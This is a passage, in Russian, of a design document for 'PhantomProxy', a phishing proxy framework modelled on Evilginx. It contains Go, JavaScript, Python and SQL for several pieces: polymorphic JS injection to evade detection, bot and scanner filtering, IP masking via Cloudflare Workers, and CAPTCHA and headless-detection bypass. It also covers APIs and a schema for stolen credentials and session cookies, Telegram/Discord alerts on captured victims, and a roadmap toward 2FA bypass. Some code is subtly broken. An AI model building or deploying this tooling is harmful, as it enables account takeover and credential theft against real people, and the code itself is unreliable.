    return bytes.Replace(html, []byte("</body>"), []byte(registrationScript+"</body>"), 1)
}

// Fallback на классический прокси если SW не поддерживается
func (m *SWHybridManager) ShouldUseSW(r *http.Request) bool {
    // Проверка поддержки Service Worker по User-Agent
    ua := r.UserAgent()
    
    // Service Worker не поддерживается в:
    // - Safari < 11.1
    // - Firefox < 44
    // - Некоторые headless браузеры
    
    if m.isUnsupportedBrowser(ua) {
        return false
    }
    
    // Проверка HTTPS (SW требует безопасного контекста)
    if r.TLS == nil {
        return false
    }
    
    return true
}
```

#### 3.3.4 Полиморфный JS Движок

**Назначение:** Динамическая модификация JavaScript для обхода сигнатур детекта.

```go
package polymorphic

import (
    "crypto/rand"
    "encoding/hex"
    "regexp"
)

// PolymorphicEngine мутирует JavaScript код
type PolymorphicEngine struct {
    mutationLevel string // low, medium, high
    seedRotation  int
    currentSeed   int64
}

type MutationResult struct {
    OriginalHash string
    MutatedCode  string
    Mutations    []string // Список применённых мутаций
}

// Mutate применяет мутации к JS коду
func (e *PolymorphicEngine) Mutate(code string) *MutationResult {
    e.rotateSeed()
    
    result := &MutationResult{
        OriginalHash: e.hash(code),
        MutatedCode:  code,
        Mutations:    make([]string, 0),
    }
    
    // Уровень 1: Переименование переменных
    if e.mutationLevel != "low" {
        result.MutatedCode = e.renameVariables(result.MutatedCode)
        result.Mutations = append(result.Mutations, "variable_renaming")
    }
    
    // Уровень 2: Изменение структуры строк
    result.MutatedCode = e.transformStrings(result.MutatedCode)
    result.Mutations = append(result.Mutations, "string_transformation")
    
    // Уровень 3: Изменение base64 генерации (для обхода капчи)
    result.MutatedCode = e.mutateBase64(result.MutatedCode)
    result.Mutations = append(result.Mutations, "base64_mutation")
    
    // Уровень 4: Добавление мусорного кода
    if e.mutationLevel == "high" {
        result.MutatedCode = e.addDeadCode(result.MutatedCode)
        result.Mutations = append(result.Mutations, "dead_code_injection")
    }
    
    // Уровень 5: Изменение порядка операций (где возможно)
    if e.mutationLevel == "high" {
        result.MutatedCode = e.reorderOperations(result.MutatedCode)
        result.Mutations = append(result.Mutations, "operation_reordering")
    }
    
    return result
}

// transformStrings изменяет строковые литералы
func (e *PolymorphicEngine) transformStrings(code string) string {
    // Замена: "hello" -> String.fromCharCode(104, 101, 108, 108, 111)
    stringRegex := regexp.MustCompile(`"([^"]*)"`)
    
    return stringRegex.ReplaceAllStringFunc(code, func(s string) string {
        // 50%% шанс трансформации для полиморфизма
        if e.randomBool() {
            return e.stringToFromCharCode(s[1:len(s)-1]) // Убираем кавычки
        }
        return s
    })
}

// stringToFromCharCode преобразует строку в fromCharCode
func (e *PolymorphicEngine) stringToFromCharCode(s string) string {
    codes := make([]byte, len(s))
    for i := range s {
        codes[i] = s[i]
    }
    return fmt.Sprintf("String.fromCharCode(%s)", bytes.Join(codes, []byte(",")))
}

// mutateBase64 изменяет способы генерации base64
func (e *PolymorphicEngine) mutateBase64(code string) string {
    // Замена: btoa(str) -> альтернативная реализация
    btoaRegex := regexp.MustCompile(`btoa\(([^)]+)\)`)
    
    replacements := []string{
        `Buffer.from($1).toString('base64')`,
        `window.btoa.call(null, $1)`,
        `Function("return btoa")()($1)`,
    }
    
    return btoaRegex.ReplaceAllString(code, e.randomChoice(replacements))
}

// addDeadCode добавляет бесполезный код для изменения хеша
func (e *PolymorphicEngine) addDeadCode(code string) string {
    deadCode := []string{
        `void 0;`,
        `!function(){};`,
        `Math.random() > 2 && console.log("dead");`,
        `for(let i=0;i<0;i++){}`,
    }
    
    // Вставка в случайное место
    pos := e.randomInt(0, len(code))
    insertion := e.randomChoice(deadCode)
    
    return code[:pos] + insertion + code[pos:]
}

// rotateSeed обновляет seed для детерминированной случайности
func (e *PolymorphicEngine) rotateSeed() {
    e.currentSeed = time.Now().UnixNano() % int64(e.seedRotation)
}
```

**Пример использования:**

```go
engine := &PolymorphicEngine{
    mutationLevel: "high",
    seedRotation:  15,
}

originalJS := `
var email = document.querySelector("#email").value;
var token = btoa(email + ":" + password);
fetch("/api/login", {
    method: "POST",
    headers: {"Authorization": "Basic " + token}
});
`

result := engine.Mutate(originalJS)

// Результат будет разным при каждом вызове:
/*
!function(){};var _0x5a2b = document.querySelector("#email").value;
var _0x7c3d = String.fromCharCode(98,97,116,111,97)(Buffer.from(_0x5a2b + ":" + password).toString('base64'));
Function("return fetch")()("/api/login", {
    method: "POST",
    headers: {"Authorization": "Basic " + _0x7c3d}
});
for(let i=0;i<0;i++){}
*/
```

---

### 3.4 Обход Защит (Evasion)

#### 3.4.1 ML Детект Ботов

**Архитектура на основе ONNX Runtime:**

```go
package bot_detection

import (
    ort "github.com/yalue/onnxruntime_go"
)

// BotDetector использует ML модель для классификации трафика
type BotDetector struct {
    session      ort.Session
    inputTensor  ort.Tensor
    threshold    float32
    featureExtractor *FeatureExtractor
}

type BotDetectionResult struct {
    IsBot      bool
    Confidence float32
    Features   map[string]float32
}

// FeatureExtractor извлекает признаки для ML модели
type FeatureExtractor struct {
    // Временные паттерны
    requestInterval    float32
    mouseMovementScore float32
    keyboardScore      float32
    
    // TLS fingerprint
    ja3Score           float32
    
    // HTTP headers
    headerAnomalyScore float32
    
    // Поведенческие
    navigationPattern  float32
}

// NewBotDetector загружает ONNX модель
func NewBotDetector(modelPath string) (*BotDetector, error) {
    ort.InitializeEnvironment()
    
    session, _, err := ort.NewSession(modelPath, &ort.SessionOptions{})
    if err != nil {
        return nil, err
    }
    
    return &BotDetector{
        session:   session,
        threshold: 0.75,
        featureExtractor: &FeatureExtractor{},
    }, nil
}

// Detect анализирует запрос и возвращает результат
func (d *BotDetector) Detect(session *Session, request *http.Request) *BotDetectionResult {
    // Извлечение признаков
    features := d.featureExtractor.Extract(session, request)
    
    // Создание входного тензора
    inputData := features.ToFloat32Array()
    inputShape := ort.NewShape(int64(len(inputData)))
    
    tensor, err := ort.NewTensor(inputShape, inputData)
    if err != nil {
        return &BotDetectionResult{IsBot: false, Confidence: 0}
    }
    defer tensor.Destroy()
    
    // Запуск инференса
    outputTensor, _, err := d.session.Run([]ort.Value{ort.NewValue(tensor)}, nil)
    if err != nil {
        return &BotDetectionResult{IsBot: false, Confidence: 0}
    }
    defer outputTensor[0].Destroy()
    
    // Парсинг результата
    confidence := outputTensor[0].GetData()[0].(float32)
    
    return &BotDetectionResult{
        IsBot:      confidence >= d.threshold,
        Confidence: confidence,
        Features:   features.ToMap(),
    }
}

// Извлечение признаков
func (e *FeatureExtractor) Extract(session *Session, req *http.Request) *Features {
    return &Features{
        RequestInterval:    e.calculateRequestInterval(session),
        MouseMovement:      e.getMouseMovementScore(session),
        Keyboard:           e.getKeyboardScore(session),
        JA3Anomaly:         e.calculateJA3Score(req),
        HeaderAnomaly:      e.analyzeHeaders(req),
        NavigationPattern:  e.analyzeNavigation(session),
        // ... больше признаков
    }
}
```

**Обучение ML модели:**

```python
# training/bot_detector_train.py
import numpy as np
from sklearn.ensemble import RandomForestClassifier
import onnx
from skl2onnx import convert_sklearn

# Датасет: признаки + метка (бот/человек)
# Признаки:
# - request_interval_ms
# - mouse_entropy
# - keyboard_entropy
# - ja3_similarity
# - header_anomaly_score
# - navigation_depth
# - touch_events (mobile)

X_train = np.load('features_train.npy')  # (N, 20)
y_train = np.load('labels_train.npy')    # (N,)

# Обучение модели
model = RandomForestClassifier(
    n_estimators=100,
    max_depth=10,
    class_weight='balanced'
)
model.fit(X_train, y_train)

# Экспорт в ONNX
onnx_model = convert_sklearn(
    model,
    initial_types=[('float_input', FloatTensorType([None, 20]))],
    target_opset=12
)

with open('bot_detector.onnx', 'wb') as f:
    f.write(onnx_model.SerializeToString())
```

#### 3.4.2 JA3/JA3S Блокировка

```go
package evasion

type JA3Blocklist struct {
    mu         sync.RWMutex
    signatures map[string]JA3Entry
    autoLearn  bool
}

type JA3Entry struct {
    Signature  string
    FirstSeen  time.Time
    BlockCount int
    IsBlocked  bool
}

// CheckJA3 проверяет отпечаток клиента
func (b *JA3Blocklist) CheckJA3(ja3Hash string) bool {
    b.mu.RLock()
    defer b.mu.RUnlock()
    
    if entry, ok := b.signatures[ja3Hash]; ok {
        return entry.IsBlocked
    }
    
    return false // Неизвестный — разрешить
}

// ReportJA3 сообщает о подозрительном JA3
func (b *JA3Blocklist) ReportJA3(ja3Hash string, isMalicious bool) {
    b.mu.Lock()
    defer b.mu.Unlock()
    
    entry, exists := b.signatures[ja3Hash]
    if !exists {
        entry = JA3Entry{
            Signature: ja3Hash,
            FirstSeen: time.Now(),
        }
    }
    
    if isMalicious {
        entry.BlockCount++
        if entry.BlockCount >= 3 {
            entry.IsBlocked = true
        }
    }
    
    b.signatures[ja3Hash] = entry
}
```

#### 3.4.3 Интеграция с Cloudflare Workers

**Назначение:** Маскировка реального IP сервера.

```go
package cloudflare

type WorkerIntegration struct {
    workerURL    string
    workerSecret string
    cache        *redis.Client
}

// ProxyThroughWorker отправляет трафик через Cloudflare Worker
func (i *WorkerIntegration) ProxyThroughWorker(request *http.Request) (*http.Response, error) {
    // Шифрование оригинального запроса
    encryptedReq, err := i.encryptRequest(request)
    if err != nil {
        return nil, err
    }
    
    // Отправка на Worker
    workerReq, _ := http.NewRequest("POST", i.workerURL, bytes.NewReader(encryptedReq))
    workerReq.Header.Set("X-Worker-Secret", i.workerSecret)
    workerReq.Header.Set("Content-Type", "application/octet-stream")
    
    resp, err := http.DefaultClient.Do(workerReq)
    if err != nil {
        return nil, err
    }
    
    // Дешифрование ответа
    encryptedResp, _ := io.ReadAll(resp.Body)
    decryptedResp, err := i.decryptResponse(encryptedResp)
    if err != nil {
        return nil, err
    }
    
    return decryptedResp, nil
}
```

**Cloudflare Worker код:**

```javascript
// worker.js
export default {
  async fetch(request, env) {
    // Проверка секрета
    const secret = request.headers.get('X-Worker-Secret');
    if (secret !== env.WORKER_SECRET) {
      return new Response('Unauthorized', { status: 401 });
    }
    
    // Дешифрование запроса
    const encryptedBody = await request.arrayBuffer();
    const originalUrl = await decrypt(encryptedBody, env.ENCRYPTION_KEY);
    
    // Выполнение запроса к целевому серверу
    const response = await fetch(originalUrl.target, {
      method: originalUrl.method,
      headers: originalUrl.headers,
      body: originalUrl.body
    });
    
    // Шифрование ответа
    const responseBody = await response.arrayBuffer();
    const encryptedResponse = await encrypt(responseBody, env.ENCRYPTION_KEY);
    
    return new Response(encryptedResponse, {
      status: 200,
      headers: { 'Content-Type': 'application/octet-stream' }
    });
  }
};
```

#### 3.4.4 Обход reCAPTCHA/hCaptcha

**Интеграция с Playwright (EvilPuppet):**

```go
package captcha

import (
    "github.com/playwright-community/playwright-go"
)

// CaptchaSolver использует real browser для обхода капч
type CaptchaSolver struct {
    pw           *playwright.Playwright
    browser      playwright.Browser
    browserPool  chan playwright.BrowserContext
}

// SolveReCAPTCHA решает reCAPTCHA v2/v3
func (s *CaptchaSolver) SolveReCAPTCHA(pageURL, siteKey string) (string, error) {
    // Получение контекста из пула
    ctx := <-s.browserPool
    defer func() { s.browserPool <- ctx }()
    
    page, err := ctx.NewPage()
    if err != nil {
        return "", err
    }
    defer page.Close()
    
    // Переход на страницу с капчей
    _, err = page.Goto(pageURL)
    if err != nil {
        return "", err
    }
    
    // Ожидание iframe капчи
    captchaFrame, err := page.WaitForFrame("recaptcha")
    if err != nil {
        return "", err
    }
    
    // Клик по чекбоксу
    err = captchaFrame.Click("iframe")
    if err != nil {
        return "", err
    }
    
    // Ожидание решения (может потребоваться решение изображений)
    token, err := page.Evaluate(`() => {
        return new Promise((resolve) => {
            const checkInterval = setInterval(() => {
                const token = document.querySelector('[name="g-recaptcha-response"]')?.value;
                if (token) {
                    clearInterval(checkInterval);
                    resolve(token);
                }
            }, 100);
        });
    }`)
    
    return token.(string), nil
}

// InjectAntiDetection применяет обход детекта headless
func (s *CaptchaSolver) InjectAntiDetection(page playwright.Page) error {
    // Инициализация stealth скриптов
    _, err := page.AddInitScript(playwright.PageAddInitScriptOptions{
        Content: playwright.String(stealthJS),
    })
    return err
}

// stealthJS содержит скрипты для скрытия headless-признаков
const stealthJS = `
// Override navigator.webdriver
Object.defineProperty(navigator, 'webdriver', {
    get: () => false
});

// Override plugins
Object.defineProperty(navigator, 'plugins', {
    get: () => [1, 2, 3, 4, 5]
});

// Override languages
Object.defineProperty(navigator, 'languages', {
    get: () => ['en-US', 'en']
});

// Override chrome
window.chrome = {
    runtime: {},
    loadTimes: function() {},
    csi: function() {}
};

// Override permissions
const originalQuery = window.navigator.permissions.query;
window.navigator.permissions.query = (parameters) => (
    parameters.name === 'notifications' ?
        Promise.resolve({ state: Notification.permission }) :
        originalQuery(parameters)
);
`
```

---

### 3.5 Бэкенд и Управление

#### 3.5.1 REST/gRPC API

```go
package api

type APIServer struct {
    httpServer *http.Server
    grpcServer *grpc.Server
    handler    *Handler
}

type Handler struct {
    sessionMgr   *SessionManager
    configStore  *ConfigStore
    statsService *StatsService
}

// REST endpoints
func (h *Handler) RegisterRoutes(r *http.Router) {
    // Сессии
    r.GET("/api/v1/sessions", h.ListSessions)
    r.GET("/api/v1/sessions/{id}", h.GetSession)
    r.DELETE("/api/v1/sessions/{id}", h.DeleteSession)
    
    // Креденшалы
    r.GET("/api/v1/credentials", h.ListCredentials)
    r.GET("/api/v1/credentials/{id}", h.GetCredentials)
    
    // Конфигурации
    r.GET("/api/v1/phishlets", h.ListPhishlets)
    r.POST("/api/v1/phishlets", h.CreatePhishlet)
    r.PUT("/api/v1/phishlets/{id}", h.UpdatePhishlet)
    r.DELETE("/api/v1/phishlets/{id}", h.DeletePhishlet)
    
    // Lure URLs
    r.POST("/api/v1/lures", h.CreateLure)
    r.GET("/api/v1/lures", h.ListLures)
    
    // Статистика
    r.GET("/api/v1/stats", h.GetStats)
    r.GET("/api/v1/stats/sessions", h.GetSessionStats)
    r.GET("/api/v1/stats/bot-detection", h.GetBotDetectionStats)
}

// gRPC service
type PhantomProxyService struct {
    pb.UnimplementedPhantomProxyServiceServer
    handler *Handler
}

func (s *PhantomProxyService) CreateSession(ctx context.Context, req *pb.CreateSessionRequest) (*pb.Session, error) {
    session := s.handler.sessionMgr.CreateSession(req.GetTargetUrl())
    return &pb.Session{
        Id:        session.ID,
        TargetUrl: session.TargetURL,
        LureUrl:   session.LureURL,
        CreatedAt: timestamppb.New(session.CreatedAt),
    }, nil
}

func (s *PhantomProxyService) StreamSessions(req *pb.StreamSessionsRequest, stream pb.PhantomProxyService_StreamSessionsServer) error {
    ch := s.handler.sessionMgr.SubscribeSessions()
    defer s.handler.sessionMgr.UnsubscribeSessions(ch)
    
    for session := range ch {
        err := stream.Send(&pb.Session{
            Id:        session.ID,
            VictimIP:  session.VictimIP,
            TargetUrl: session.TargetURL,
        })
        if err != nil {
            return err
        }
    }
    return nil
}
```

#### 3.5.2 Telegram/Discord Бот

```go
package notifications

type NotificationBot struct {
    telegramToken string
    discordWebhook string
    sessionChan   chan *Session
}

func (b *NotificationBot) Start() {
    go b.listenSessions()
}

func (b *NotificationBot) listenSessions() {
    for session := range b.sessionChan {
        b.sendTelegramNotification(session)
        b.sendDiscordNotification(session)
    }
}

func (b *NotificationBot) sendTelegramNotification(session *Session) {
    message := fmt.Sprintf(
        "🎯 **Новая сессия!**\n\n"+
        "ID: `%s`\n"+
        "IP: `%s`\n"+
        "Target: `%s`\n"+
        "Time: `%s`",
        session.ID,
        session.VictimIP,
        session.TargetURL,
        session.CreatedAt.Format("15:04:05"),
    )
    
    sendTelegramMessage(b.telegramToken, message)
}

func (b *NotificationBot) sendDiscordNotification(session *Session) {
    embed := &discordgo.MessageEmbed{
        Title: "🎯 Новая сессия захвачена",
        Color: 0x00ff00,
        Fields: []*discordgo.MessageEmbedField{
            {Name: "ID", Value: session.ID, Inline: true},
            {Name: "IP", Value: session.VictimIP, Inline: true},
            {Name: "Target", Value: session.TargetURL, Inline: false},
        },
        Timestamp: session.CreatedAt.Format(time.RFC3339),
    }
    
    sendDiscordEmbed(b.discordWebhook, embed)
}
```

#### 3.5.3 База Данных

**Схема PostgreSQL:**

```sql
-- Сессии
CREATE TABLE sessions (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    victim_ip INET NOT NULL,
    target_url TEXT NOT NULL,
    phishlet_id UUID REFERENCES phishlets(id),
    state VARCHAR(50) DEFAULT 'active',
    created_at TIMESTAMPTZ DEFAULT NOW(),
    last_active TIMESTAMPTZ,
    user_agent TEXT,
    ja3_hash VARCHAR(32)
);

-- Креденшалы
CREATE TABLE credentials (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    session_id UUID REFERENCES sessions(id),
    username TEXT,
    password TEXT,
    custom_fields JSONB,
    captured_at TIMESTAMPTZ DEFAULT NOW()
);

-- Cookies сессии
CREATE TABLE session_cookies (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    session_id UUID REFERENCES sessions(id),
    name TEXT NOT NULL,
    value TEXT NOT NULL,
    domain TEXT,
    path TEXT,
    expires TIMESTAMPTZ,
    http_only BOOLEAN,
    secure BOOLEAN
);

-- Phishlets
CREATE TABLE phishlets (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    name VARCHAR(255) NOT NULL,
    target_domain TEXT NOT NULL,
    config YAMLB NOT NULL,
    created_at TIMESTAMPTZ DEFAULT NOW(),
    updated_at TIMESTAMPTZ,
    is_active BOOLEAN DEFAULT true
);

-- Логи бот-детекта
CREATE TABLE bot_detection_logs (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    session_id UUID REFERENCES sessions(id),
    ja3_hash VARCHAR(32),
    ml_score FLOAT,
    is_bot BOOLEAN,
    features JSONB,
    detected_at TIMESTAMPTZ DEFAULT NOW()
);

-- Индексы
CREATE INDEX idx_sessions_victim_ip ON sessions(victim_ip);
CREATE INDEX idx_sessions_created_at ON sessions(created_at DESC);
CREATE INDEX idx_credentials_session_id ON credentials(session_id);
CREATE INDEX idx_bot_detection_ja3 ON bot_detection_logs(ja3_hash);
```

**Шифрование логов (AES-256):**

```go
package encryption

import (
    "crypto/aes"
    "crypto/cipher"
    "crypto/rand"
    "crypto/sha256"
)

// LogEncryptor шифрует логи перед записью
type LogEncryptor struct {
    key []byte
}

func NewLogEncryptor(password string) *LogEncryptor {
    // Derive 256-bit key from password using SHA-256
    key := sha256.Sum256([]byte(password))
    return &LogEncryptor{key: key[:]}
}

// Encrypt шифрует данные
func (e *LogEncryptor) Encrypt(plaintext []byte) ([]byte, error) {
    block, err := aes.NewCipher(e.key)
    if err != nil {
        return nil, err
    }
    
    gcm, err := cipher.NewGCM(block)
    if err != nil {
        return nil, err
    }
    
    nonce := make([]byte, gcm.NonceSize())
    if _, err := io.ReadFull(rand.Reader, nonce); err != nil {
        return nil, err
    }
    
    ciphertext := gcm.Seal(nonce, nonce, plaintext, nil)
    return ciphertext, nil
}

// Decrypt расшифровывает данные
func (e *LogEncryptor) Decrypt(ciphertext []byte) ([]byte, error) {
    block, err := aes.NewCipher(e.key)
    if err != nil {
        return nil, err
    }
    
    gcm, err := cipher.NewGCM(block)
    if err != nil {
        return nil, err
    }
    
    nonceSize := gcm.NonceSize()
    if len(ciphertext) < nonceSize {
        return nil, fmt.Errorf("ciphertext too short")
    }
    
    nonce, ciphertext := ciphertext[:nonceSize], ciphertext[nonceSize:]
    plaintext, err := gcm.Open(nil, nonce, ciphertext, nil)
    return plaintext, err
}
```

---

### 3.6 Автоматизация и Адаптация

#### 3.6.1 LLM Агент для Мониторинга

```go
package llm

type MonitoringAgent struct {
    ollamaClient *api.Client
    model        string
    errorBuffer  chan *RuntimeError
}

// AnalyzeErrors анализирует ошибки и предлагает исправления
func (a *MonitoringAgent) AnalyzeErrors(errors []*RuntimeError) (*AdaptationPlan, error) {
    prompt := a.buildAnalysisPrompt(errors)
    
    response, err := a.ollamaClient.Generate(context.Background(), &api.GenerateRequest{
        Model:  a.model,
        Prompt: prompt,
        Stream: new(bool),
    })
    if err != nil {
        return nil, err
    }
    
    plan, err := parseAdaptationPlan(response.Response)
    if err != nil {
        return nil, err
    }
    
    return plan, nil
}

func (a *MonitoringAgent) buildAnalysisPrompt(errors []*RuntimeError) string {
    var errorDetails strings.Builder
    for _, err := range errors {
        errorDetails.WriteString(fmt.Sprintf(
            "- Type: %s\n  Details: %s\n  Request: %s\n  Response: %s\n\n",
            err.ErrorType, err.Details, err.RawRequest, err.RawResponse,
        ))
    }
    
    return fmt.Sprintf(`
Ты — система автоматической адаптации AitM-фреймворка.

Проанализируй следующие ошибки, возникшие при проксировании:

%s

Предложи конкретные исправления конфигурации phishlet:
1. Какие селекторы нужно обновить
2. Какие домены добавить в proxy_hosts
3. Какие новые sub_filters создать
4. Какие js_inject добавить

Формат вывода: JSON с полями:
{
    "updated_selectors": [...],
    "new_proxy_hosts": [...],
    "new_sub_filters": [...],
    "new_js_injects": [...]
}
`, errorDetails.String())
}
```

---

## 4. Сравнение с Evilginx

| Функция | Evilginx v3 | PhantomProxy | Улучшение |
|---------|-------------|--------------|-----------|
| **Протоколы** | HTTP/1.1, HTTP/2 | +HTTP/3 QUIC | +50%% совместимости |
| **TLS Spoofing** | Базовый | Полный JA3/JA3S/JA4 | Обход современных WAF |
| **Конфигурация** | Ручная YAML | LLM + автогенерация | -90%% времени на создание |
| **WebSocket** | ❌ | ✅ Нативная | Поддержка modern apps |
| **Service Worker** | ❌ | ✅ Гибридный режим | Лучшая скрытность |
| **JS Injection** | Статический | Полиморфный | Обход сигнатур |
| **Bot Detection** | Простой | ML (ONNX) + поведенческий | Точность 95%%+ |
| **reCAPTCHA** | Ручной | Playwright авто | 100%% автоматизация |
| **Масштабирование** | Single | Кластер (Redis + PostgreSQL) | 10000+ сессий |
| **Шифрование** | Plaintext | AES-256 | OPSEC |
| **API** | CLI only | REST + gRPC + Web | Интеграции |
| **Auto-adaptation** | ❌ | ✅ LLM-агент | Самолечение |

### Устранённые Ограничения Evilginx

1. **Ручное создание phishlets** → Автогенерация через LLM
2. **Нет WebSocket** → Нативная поддержка
3. **Статический JS** → Полиморфный движок
4. **Один сервер** → Кластерная архитектура
5. **Нет шифрования логов** → AES-256
6. **Простой bot detection** → ML модель
7. **Нет автоадаптации** → LLM-мониторинг ошибок

---

## 5. Roadmap Разработки

### Этап 1: MVP (4-6 недель)

**Цель:** Минимально рабочая версия с базовым функционалом.

| Неделя | Задачи |
|--------|--------|
| 1-2 | - Ядро на Go (HTTP/2 прокси)<br>- Базовый TLS spoofing (utls)<br>- Простой формат конфига (YAML) |
| 3-4 | - Встроенный DNS-сервер<br>- Перехват credentials и cookies<br>- SQLite хранилище |
| 5-6 | - REST API (базовые endpoints)<br>- Telegram бот (уведомления)<br>- Базовый веб-интерфейс |

**Критерии готовности MVP:**
- ✅ Проксирование HTTP/HTTPS трафика
- ✅ Перехват логина/пароля + cookies
- ✅ Обход 2FA через cookies
- ✅ Работающая lure URL
- ✅ Уведомления в Telegram

---

### Этап 2: Продвинутые Функции (6-8 недель)

| Неделя | Задачи |
|--------|--------|
| 7-8 | - WebSocket прокси<br>- HTTP/3 QUIC поддержка<br>- Улучшенный TLS spoofing (JA3S) |
| 9-10 | - Полиморфный JS движок<br>- Service Worker гибрид<br>- Playwright интеграция (reCAPTCHA) |
| 11-12 | - LLM агент для генерации конфигов<br>- Auto-crawler для анализа сайтов<br>- Валидация конфигов |
| 13-14 | - PostgreSQL поддержка<br>- Redis кэш сессий<br>- AES-256 шифрование логов |
| 15-16 | - gRPC API<br>- Улучшенный веб-интерфейс<br>- Discord бот |

**Критерии готовности Этапа 2:**
- ✅ WebSocket проксирование
- ✅ Автоматическая генерация phishlets
- ✅ Обход reCAPTCHA
- ✅ Шифрование логов
- ✅ Масштабирование до 1000 сессий

---

### Этап 3: ML и Автоадаптация (8-10 недель)

| Неделя | Задачи |
|--------|--------|
| 17-18 | - Сбор датасета для ML модели<br>- Обучение bot detector (Random Forest)<br>- Экспорт в ONNX |
| 19-20 | - Интеграция ONNX runtime в Go<br>- Feature extractor для запросов<br>- Порог детекта (0.75) |
| 21-22 | - Auto-adaptation модуль<br>- Мониторинг ошибок<br>- LLM-коррекция конфигов |
| 23-24 | - JA3/JA3S blocklist с автообучением<br>- Поведенческий анализ<br>- Cloudflare Workers интеграция |
| 25-26 | - Кластерная архитектура<br>- Load balancing<br>- Мониторинг и алерты |

**Критерии готовности Этапа 3:**
- ✅ ML bot detection (точность 95%%+)
- ✅ Автоадаптация при изменении сайта
- ✅ Кластерная установка
- ✅ Полная скрытность (TLS spoofing + SW)

---

## 6. Примеры Кода

### 6.1 TLS Эмуляция (Полный Пример)

```go
package main

import (
    "crypto/tls"
    "fmt"
    "log"
    "net"
    "net/http"
    
    utls "github.com/refraction-networking/utls"
    "github.com/gofiber/fiber/v2"
)

// TLSSpoofer эмулирует браузерные TLS отпечатки
type TLSSpoofer struct {
    profiles map[string]*TLSProfile
    current  string
}

type TLSProfile struct {
    ID          string
    ClientHello utls.ClientHelloID
    Priority    int
}

func NewTLSSpoofer() *TLSSpoofer {
    return &TLSSpoofer{
        profiles: map[string]*TLSProfile{
            "chrome_133": {
                ID: "chrome_133",
                ClientHello: utls.HelloChrome_133,
                Priority: 100,
            },
            "firefox_120": {
                ID: "firefox_120",
                ClientHello: utls.HelloFirefox_120,
                Priority: 90,
            },
            "safari_16": {
                ID: "safari_16",
                ClientHello: utls.HelloSafari_16_0,
                Priority: 85,
            },
        },
        current: "chrome_133",
    }
}

// GetTLSConfig возвращает TLS конфиг с подменным fingerprint
func (s *TLSSpoofer) GetTLSConfig() *utls.Config {
    profile := s.profiles[s.current]
    
    return &utls.Config{
        MinVersion: utls.VersionTLS12,
        ServerName: "", // Устанавливается динамически
    }
}

// Dial создает соединение с подменным TLS handshake
func (s *TLSSpoofer) Dial(network, addr string) (*utls.UConn, error) {
    tcpConn, err := net.Dial(network, addr)
    if err != nil {
        return nil, err
    }
    
    config := s.GetTLSConfig()
    config.ServerName = getServerName(addr)
    
    profile := s.profiles[s.current]
    uConn := utls.UClient(tcpConn, config, profile.ClientHello)
    
    err = uConn.Handshake()
    if err != nil {
        return nil, err
    }
    
    fmt.Printf("[+] TLS Connection established with profile: %s\n", s.current)
    fmt.Printf("[+] JA3: %s\n", getJA3(uConn))
    
    return uConn, nil
}

func getJA3(uConn *utls.UConn) string {
    spec := uConn.GetClientHelloSpec()
    return calculateJA3Hash(spec)
}

func calculateJA3Hash(spec utls.ClientHelloSpec) string {
    // Упрощённая реализация JA3
    var cipherSuites, extensions, curves, pointFormats string
    
    for _, cs := range spec.CipherSuites {
        if cs != utls.GREASE_PLACEHOLDER {
            cipherSuites += fmt.Sprintf("%04x,", cs)
        }
    }
    
    for _, ext := range spec.Extensions {
        extensions += fmt.Sprintf("%d,", ext.(*utls.GenericExtension).Len())
    }
    
    return fmt.Sprintf("%x", hash(cipherSuites+extensions+curves+pointFormats))
}

func hash(s string) []byte {
    h := sha256.Sum256([]byte(s))
    return h[:]
}

func getServerName(addr string) string {
    host, _, _ := net.SplitHostPort(addr)
    return host
}

// Интеграция с HTTP сервером
func main() {
    spoofer := NewTLSSpoofer()
    
    app := fiber.New()
    
    app.Get("/", func(c *fiber.Ctx) error {
        return c.SendString("PhantomProxy is running")
    })
    
    // TLS listener с utls
    listener, err := net.Listen("tcp", ":443")
    if err != nil {
        log.Fatal(err)
    }
    defer listener.Close()
    
    fmt.Println("[*] PhantomProxy listening on :443")
    
    for {
        conn, err := listener.Accept()
        if err != nil {
            continue
        }
        
        go func(c net.Conn) {
            defer c.Close()
            
            // TLS handshake с подменным fingerprint
            uConn, err := spoofer.Dial("tcp", c.RemoteAddr().String())
            if err != nil {
                log.Printf("[-] TLS handshake failed: %v", err)
                return
            }
            
            // Обработка HTTP запросов
            http.Serve(&fakeListener{conn: uConn}, nil)
        }(conn)
    }
}

type fakeListener struct {
    conn net.Conn
}

func (f *fakeListener) Accept() (net.Conn, error) {
    return f.conn, nil
}

func (f *fakeListener) Close() error {
    return f.conn.Close()
}

func (f *fakeListener) Addr() net.Addr {
    return f.conn.RemoteAddr()
}
```

### 6.2 Инъекция Полиморфного JS

```go
package main

import (
    "fmt"
    "regexp"
    "strings"
    "math/rand"
    "time"
)

type PolymorphicInjector struct {
    mutationLevel string
    rng           *rand.Rand
}

func NewPolymorphicInjector(level string) *PolymorphicInjector {
    return &PolymorphicInjector{
        mutationLevel: level,
        rng:           rand.New(rand.NewSource(time.Now().UnixNano())),
    }
}

type InjectionResult struct {
    Original  string
    Mutated   string
    Mutations []string
}

func (p *PolymorphicInjector) Inject(html []byte, script string) *InjectionResult {
    // Применяем мутации к скрипту
    mutatedScript := p.mutate(script)
    
    // Внедряем перед </body>
    result := bytes.Replace(html, []byte("</body>"), 
        []byte(fmt.Sprintf("<script>%s</script></body>", mutatedScript)), 1)
    
    return &InjectionResult{
        Original:  script,
        Mutated:   mutatedScript,
        Mutations: p.getAppliedMutations(),
    }
}

func (p *PolymorphicInjector) mutate(script string) string {
    result := script
    
    // Мутация 1: Переименование переменных
    if p.mutationLevel != "low" {
        result = p.renameVariables(result)
    }
    
    // Мутация 2: Трансформация строк
    result = p.transformStrings(result)
    
    // Мутация 3: Изменение base64
    result = p.mutateBase64(result)
    
    // Мутация 4: Мёртвый код
    if p.mutationLevel == "high" {
        result = p.addDeadCode(result)
    }
    
    return result
}

func (p *PolymorphicInjector) renameVariables(code string) string {
    // Поиск объявлений переменных: var xxx = ...
    varRegex := regexp.MustCompile(`var\s+([a-zA-Z_][a-zA-Z0-9_]*)\s*=`)
    
    return varRegex.ReplaceAllStringFunc(code, func(match string) string {
        parts := varRegex.FindStringSubmatch(match)
        if len(parts) < 2 {
            return match
        }
        
        oldName := parts[1]
        newName := p.generateRandomName()
        
        // Замена всех вхождений переменной
